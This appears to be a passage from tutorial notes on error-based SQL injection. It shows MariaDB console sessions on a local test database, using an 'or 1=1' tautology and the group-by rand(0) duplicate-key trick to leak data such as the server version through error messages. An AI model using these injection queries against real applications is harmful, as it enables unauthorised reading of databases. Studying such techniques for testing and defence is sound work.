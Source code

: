 

##### Error - Error Based

  ```
  MariaDB [dark]> use y;
  Database changed
  MariaDB [y]> show tables;
  +-------------+
  | Tables_in_y |
  +-------------+
  | users       |
  +-------------+
  1 row in set (0.000 sec)
  
  MariaDB [y]> select * from users;
  +----------+
  | name     |
  +----------+
  | sherwin  |
  | analette |
  | reine    |
  +----------+
  3 rows in set (0.000 sec)
  
  MariaDB [y]> select name from users where name="sherwin" or 1=1 group by round(rand(0)) having min(0);
  ERROR 1062 (23000): Duplicate entry '1' for key 'group_key'
  
  MariaDB [y]> select name, round(rand(0)), concat(version(),round(rand(0))) from users;
  +----------+----------------+----------------------------------+
  | name     | round(rand(0)) | concat(version(),round(rand(0))) |
  +----------+----------------+----------------------------------+
  | sherwin  |              0 | 10.4.17-MariaDB0                 |
  | analette |              1 | 10.4.17-MariaDB1                 |
  | reine    |              1 | 10.4.17-MariaDB1                 |
  +----------+----------------+----------------------------------+
  3 rows in set (0.000 sec)
  ```




      ```
      MariaDB [y]> select name,rand() from users;
      +----------+---------------------+
      | name     | rand()              |
      +----------+---------------------+
      | sherwin  |  0.5641665035525025 |
      | analette |  0.7424374937475077 |
      | reine    | 0.01968798881367593 |
      +----------+---------------------+
      3 rows in set (0.000 sec)
      